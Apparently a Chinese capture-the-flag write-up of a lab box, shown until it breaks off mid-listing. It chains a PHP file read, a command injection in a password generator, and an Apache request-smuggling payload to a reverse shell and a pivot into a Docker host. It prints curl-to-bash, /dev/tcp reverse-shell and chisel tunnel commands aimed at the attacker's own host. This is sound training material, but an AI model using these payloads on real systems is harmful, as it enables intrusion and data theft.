





# Recon
:::note[quote]
Our company was excited to release our new product, but a recent attack has forced us to go down for maintenance. They have asked you to conduct a vulnerability assessment to help identify how the attack occurred.
:::

*注*: 靶机分了多次打, IP 会有更换

大道至简:
```sh
nmap -sCV -T4 -p- -vv -Pn -oN ./svc --min-rate 2500 --max-rate 5000 --reason -open 10.64.157.27
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 41:ed:cf:46:58:c8:5d:41:04:0a:32:a0:10:4a:83:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDjg3ryM+r7qxTQ5xAjU83DI6BXLjjzuwq8JgdhMGqUe4xYMTqG1s5JIQV4qQjpyqcnV47YE08e5Ld0ocxifpjTJ6HisyckOPNo/zqUri1Z+9K9LahP/dzWmE7mMBMql9Kzw+0f0/afMzc84qYlfNcw4yFYDVNXYx7mSJO5PRg4Tz3EGsE6jRRVBUkFJFOQmpdoCG7a5Ni6qjYh39/aBwIYeTM0d/HopG6b3NO6Yvx4rTo/xnG9vTWwYqKsWYFBrtMg/7GSh01zblPI6cjxXBxbfnhtId1/zXlY78Rkt0FvYbzFUUaGsvsUEoB8H4i8Z5n1mY3b7dw/A7anxtK19tkgs3+JZ9tOJRPYpgefslbw/w+Xyq1Q/xlokzUKdeZZV/5Z/Zh5/mhA0CibBC5s/rdx11YKMfYXXiCB/br8icBHBrSc12ZR0gUPsXS6IauN1BrotolWzv+9SvnEmj+KYeGX4yL+WoK/EG1Q6wBhX5eG6gWtFRk3IHYiBDoFGene7sk=
|   256 e8:f9:24:5b:e4:b0:37:4f:00:9d:5c:d3:fb:54:65:0a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFwb/Rz7jCz7YDYzNkf47+OXqnvgcYLVXQG5+kCpd5r6IQ7yl6Uqy03wr5mhL2pFecKeFZ9YcAH7yXOYCjhE4tc=
|   256 57:fd:4a:1b:12:ac:7c:90:80:88:b8:5a:5b:78:30:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBPpQejy/V33/ZPRlA/Ox2LyfOuWesS7uru9W0GMWlD3
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.55 ((Unix))
|_http-server-header: Apache/2.4.55 (Unix)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

其中 `80/tcp` 端口 TTL 为 63, 说明其可能运行在一个容器中

# Web
## /


一个显示等待发布的页面, 与背景符合, 有一个指向 `/page/home.html` 的链接
### techstack on /
```http
HTTP/1.1 200 OK
Date: Wed, 23 Sep 2026 12:17:46 GMT
Server: Apache/2.4.55 (Unix)
Last-Modified: Mon, 24 Jun 2024 23:42:10 GMT
ETag: "39a-61bab54709d80"
Accept-Ranges: bytes
Content-Length: 922
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
```

Apache 2.4.55, 一个有多个[已知漏洞](https://www.cybersecurity-help.cz/vdb/soft/apache_foundation/apache_http_server/2.4.55/)的版本, 包括:
1. CVE-2026-33523: CRLF 注入导致的请求走私
2. CVE-2026-42535: WebDav 下的路径遍历

## /page
`home.html`:

该公司的产品——密码生成器, 但目前尚无功能.


### techstack on /page/home.html
```http
HTTP/1.1 200 OK
Date: Wed, 23 Sep 2026 12:22:00 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 873
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
```
给出了以下信息:
1. Apache 2.4.54, 且括号中标注显示为 Debian
2. PHP 版本 7.4.33

考虑到根目录与该目录web基础设施的差异, 考虑 Apache 反向代理到容器内的另一个 Apache 服务器.

### Err in route /page
有趣的是, 当访问一个不存在的页面时其不会显示传统的 404, 而是:


这个报错给出了许多关键信息:
1. 当访问 `/page` 路由时实际上访问了 `index.php`
2. 网站根目录: `/var/www/html`
3. `index.php` 使用 `readfile()` 打开路由中的文件, 但 `readfile()` 只会读取不会执行

但也是这种方式导致无论路径在后端服务器是否有效, 前端服务器都会返回 `200 OK`, 会干扰例如 `dirsearch` 等工具的自动识别.



### brute
这里使用 ffuf 进行目录爆破, 通过错误时的三行错误信息返回筛选无效页面:
```sh
ffuf -u 'http://10.64.157.27/page/FUZZ' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -e .php,.html -fl 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.64.157.27/page/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 3
________________________________________________

index.php               [Status: 200, Size: 148, Words: 17, Lines: 11, Duration: 69ms]
home.html               [Status: 200, Size: 873, Words: 121, Lines: 63, Duration: 9ms]
gen.php                 [Status: 200, Size: 392, Words: 65, Lines: 15, Duration: 37ms]
```


### /page/index.php
读取到源代码, 对 web 根目录测试显示 404, 推测该文件位于第二层服务器中:
```php
<?php 
$page = $_GET['page'];
if (isset($page)) {
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}
?>
```

:::code-tree{title="codeleak" height="380px" entry="/etc/passwd"}
```txt title="/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```plaintext title="/etc/apache2/sites-enabled/000-deafult.conf"
<VirtualHost *:8080>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>
```
```plaintext title="/etc/apache2/ports.conf"
# If you just change the port or add more ports here, you will likely also
# have to change the VirtualHost statement in
# /etc/apache2/sites-enabled/000-default.conf

Listen 8080

<IfModule ssl_module>
	Listen 443
</IfModule>

<IfModule mod_gnutls.c>
	Listen 443
</IfModule>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

```plaintext title="/proc/net/fib_trie"
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /16 link UNICAST
           |-- 172.18.0.3
              /32 host LOCAL
        |-- 172.18.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /16 link UNICAST
           |-- 172.18.0.3
              /32 host LOCAL
        |-- 172.18.255.255
           /32 link BROADCAST
```

```txt title="/proc/net/route"
Iface	Destination	Gateway 	Flags	RefCnt	Use	Metric	Mask		MTU	Window	IRTT                                                       
eth0	00000000	010012AC	0003	0	0	0	00000000	0	0	0                                                                               
eth0	000012AC	00000000	0001	0	0	0	0000FFFF	0	0	0
```
:::

整体的路由情况可以理解为: 宿主机即前段Apache位于 `172.18.0.1`, 容器即后端Apache位于 `172.18.0.3`, 中间空缺 `172.18.0.2`, 可能还存在主机
```
Destination     Gateway         Genmask         Flags Metric Iface
0.0.0.0         172.18.0.1      0.0.0.0         UG    0      eth0
172.18.0.0      0.0.0.0         255.255.0.0     U     0      eth0
```
容器中服务器开放在 `172.18.0.3:8080` 端口

### /page/gen.php
也可以通过 `index.php` 读取:
```php
<?php
function generateRandomPassword($length) {
    $password = exec("tr -dc 'a-zA-Z0-9' < /dev/urandom | head -c " . $length);
    return $password;
}

if(isset($_POST['length'])){
        $length = $_POST['length'];
        $randomPassword = generateRandomPassword($length);
        echo $randomPassword;
}else{
    echo "Please insert the length parameter in the URL";
}
?>
```

其通过 POST 方法接受 `length` 参数, 并直接拼入命令中, 若能够实际访问该页面则可以构造 RCE: ``

但前端会将原始的路径代理到后端的 `/index.php` 上, 除非绕过否则无法利用该 RCE.

## HTTPsmugle2RCE
回顾技术栈, 前段 Apache 使用 2.4.55, 恰好存在 CVE-2026-33523, 一个 CRLF 注入导致的请求走私漏洞
:::quote
HTTP response splitting occurs when an application incorporates attacker-controlled data into HTTP response headers without sanitizing carriage return (\r) and line feed (\n) characters. In CVE-2026-33523, multiple Apache HTTP Server modules pass headers received from a backend server to clients without enforcing strict header field validation. When Apache acts as a reverse proxy or gateway, a malicious or compromised backend can return headers containing CRLF sequences. Apache forwards these sequences verbatim, allowing the backend to terminate the legitimate response and inject a second, attacker-defined response onto the wire.
:::

原始的经过转换后的请求包(`/page/gem.php`):
```http
GET /index.php?page=gen.php HTTP/1.1\r\n
Host: 10.64.157.27\r\n
\r\n
```

为了构造请求包, 我们需要至少获得两个信息: 后端的IP以及端口, 这些我们都知道.
1. Port: 8080
2. IP: 172.18.0.3

希望走私的请求包:
```http
POST /gen.php HTTP/1.1
Host: 172.18.0.3:8080
Content-Type: application/x-www-form-urlencoded
Content-Length:

length=1;curl <ip>/file|bash
```

可以通过额外注入一个 CRLF 对请求进行拆分, 同时确保额外的 Host 不会产生影响:
```http
GET /index.php?page=gen.php HTTP/1.1\r\n\
Host: 172.18.0.3:8080\r\n
\r\n

POST /gen.php HTTP/1.1\r\n
Host: 172.18.0.3:8080\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length:\r\n
\r\n
length=1;curl <ip>/file|bash\r\n
\r\n
GET /home.html HTTP/1.1\r\n
Host: 10.64.157.27\r\n
\r\n
```

即插入的部分:
```http
1 HTTP/1.1
Host: 172.18.0.3:8080

POST /gen.php HTTP/1.1
Host: 172.18.0.3:8080
Content-Type: application/x-www-form-urlencoded
Content-Length:34

length=1;curl 10.65.96.14|bash;

GET /2
```

进行 UrlEncode 并在本地假设一个 RevShell:
```sh
root@ip-10-65-96-14:~/wrk# vim index.html # /bin/bash -i >& /dev/tcp/10.65.96.14/4444 0>&1
root@ip-10-65-96-14:~/wrk# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.65.161.131 - - [24/Sep/2026 13:00:12] "GET / HTTP/1.1" 200 -
```

# shell as www-data in .3


位于一个容器内, 几乎没有工具.
权限校验
```sh
www-data@124a042cc76c:/var/www/html$ cat /proc/self/status | grep Cap
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	00000000a80425fb
CapAmb:	0000000000000000

www-data@124a042cc76c:/var/www/html$ uname -a
Linux 124a042cc76c 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 GNU/Linux

www-data@124a042cc76c:/var/www/html$ mount|grep -E 'sys|host'
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755,inode64)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/misc type cgroup (ro,nosuid,nodev,noexec,relatime,misc)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (ro,nosuid,nodev,noexec,relatime,hugetlb)
/dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hostname type ext4 (rw,relatime)
/dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hosts type ext4 (rw,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/firmware type tmpfs (ro,relatime,inode64)
tmpfs on /sys/devices/virtual/powercap type tmpfs (ro,relatime,inode64)
```

标准的 www-data 权限, 位于容器内, 没有特殊容器权限. 暂时不考虑容器内提权.

网络情况:
```sh
www-data@124a042cc76c:/var/www/html$ cat /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::	ip6-localnet
ff00::	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.3	124a042cc76c
```

根据上文得到的网卡信息以及交叉验证, 但前位于 Docker 网段内, 但容器内部几乎没有任何有效工具. 下载 `fscan` 并扫描:
```sh
www-data@124a042cc76c:/tmp$ ./fscan -h 172.18.0.1/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan 2.2.1 (95cc12e 2026-08-25T20:44:10Z)

[*] 服务插件: ms17010, rmi, nfs, redis, memcached ... 等36个
[*] 切换到ping命令模式
[*] ICMP响应率过低(0.0%)，启用TCP补充探测(254个主机)
[*] 172.18.0.1 存活 (协议: TCP)
[*] 172.18.0.2 存活 (协议: TCP)
[*] TCP补充探测发现 2 个存活主机
[*] 参数自适应: Timeout=1000ms, ModuleThread=5, Retry=4, ICMPRate=0.05, PocNum=5
[*] 172.18.0.1:22                  ssh      [Product:OpenSSH ||Version:8.2p1 Ubuntu 4ubuntu0.13] Banner:(SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.13)
[*] http://172.18.0.2              http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 200 OK Date: Thu, 24 Sep 2026 13:18:42 GMT Server: Apache/2.4.55 (Unix)...)
[*] http://172.18.0.1              http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 200 OK Date: Thu, 24 Sep 2026 13:18:42 GMT Server: Apache/2.4.55 (Unix)...)
[*] POC加载完成: 总共487个，成功487个，失败0个
[+] http://172.18.0.2              code:200 len:922   title:None                 server:Apache/2.4.55 (Unix) [apache-http apache/2.4.55]
[+] http://172.18.0.1              code:200 len:922   title:None                 server:Apache/2.4.55 (Unix) [apache-http apache/2.4.55]
[*] http://172.18.0.1:5000         http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 200 OK Server: Werkzeug/3.0.0 Python/3.8.10 Date: Thu, 24 Sep 2026 13:1...)
[+] http://172.18.0.1:5000         code:200 len:421   title:Website Display      server:Werkzeug/3.0.0 Python/3.8.10 [werkzeug]
端口扫描中（56线程） ● 100.0% [===================] (266/266) 26/s TCP:28/1289 
[完成] 扫描完成: 266/266 (耗时: 10.1s)
[*] 扫描完成，发现 4 个开放端口
[*] 存活主机数: 2
```

和预料相同, 存在 `172.18.0.2` 主机, 不过根据 Apache 版本推测其运行着 Web 设置中的前端 Apache.

`172.18.0.1`, 即 Docker 网络中的宿主机仅对 Docker 网络开放了 5000 端口, 其上运行着一个 Python 服务器, `Werkzeug/3.0.0`

进行端口转发:
```sh
www-data@124a042cc76c:/tmp$ ./chisel client 10.65.96.14:5000 R:5001:172.18.0.1:5000
2026/09/24 13:34:54 client: Connecting to ws://10.65.96.14:5000
2026/09/24 13:34:54 client: Connected (Latency 4.775622ms)
```

服务器收到连接:
```sh
root@ip-10-65-96-14:~/wrk# chisel server --reverse -p 5000
2026/09/24 13:32:10 server: Reverse tunnelling enabled
2026/09/24 13:32:10 server: Fingerprint 5JBgo/o2XNyKnzt1z1JJxkklb3ssvPQ4kbCR/HTnFA0=
2026/09/24 13:32:10 server: Listening on http://0.0.0.0:5000
2026/09/24 13:34:54 server: session#1: Open (user=- addr=10.65.161.131:34346 remotes=R:0.0.0.0:5001:172.18.0.1:5000)
2026/09/24 13:34:54 server: session#1: tun: proxy#R:5001=>172.18.0.1:5000: Listening
```

# Web - 5000 on host


一个带有 fetch 功能的页面.

## techstack
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.0 Python/3.8.10
Date: Thu, 24 Sep 2026 13:39:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 421
Connection: close
```

网页本身架构没什么有趣的, 测试一下 fetch 功能使用的技术栈:
```sh
root@ip-10-65-96-14:~/wrk# nc -lvvnp 8001
Listening on 0.0.0.0 8001
Connection received on 10.65.161.131 40524
GET / HTTP/1.1
Host: 10.65.96.14:8001
User-Agent: PycURL/7.45.2 libcurl/7.68.0 OpenSSL/1.1.1f zlib/1.2.11 brotli/1.0.7 libidn2/2.2.0 libpsl/0.21.0 (+libidn2/2.2.0) libssh/0.9.3/openssl/zlib nghttp2/1.40.0 librtmp/2.3
Accept: */*
```

fetch 功能使用 `PycURL/7.45.2`, 剩余的为其依赖项. 其为 Python 的 Curl 封装, 该版本无[已知漏洞](https://www.cybersecurity-help.cz/vdb/soft/debian/pycurl_debian_package/7.45.2-7/)

::github{repo="pycurl/pycurl"}

## Arbitrary File Read via pycurl
Pycurl 支持绝大多数 Curl 支持的协议, 其中就包括 `file://` 协议, 其可用于文件读取:

:::code-tree{title="codeleak" height="380px" entry="/etc/passwd"}
```txt title="/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
hansolo:x:1000:1000::/home/hansolo:/bin/bash
```

```txt title="/proc/self/cmdline"
/usr/bin/python3 /home/hansolo/app/app.py 
```

```txt title="/proc/self/environ"
HOME=/home/hansolo
LOGNAME=hansolo
PATH=/usr/bin:/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/hansolo
```

```python title="/home/hansolo/app/app.py"
from flask import Flask, render_template, render_template_string, request
import pycurl
from io import BytesIO

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def display_website():
    if request.method == 'POST':
        website_url = request.form['website_url']

        # Use pycurl to fetch the content of the website
        buffer = BytesIO()
        c = pycurl.Curl()
        c.setopt(c.URL, website_url)
        c.setopt(c.WRITEDATA, buffer)
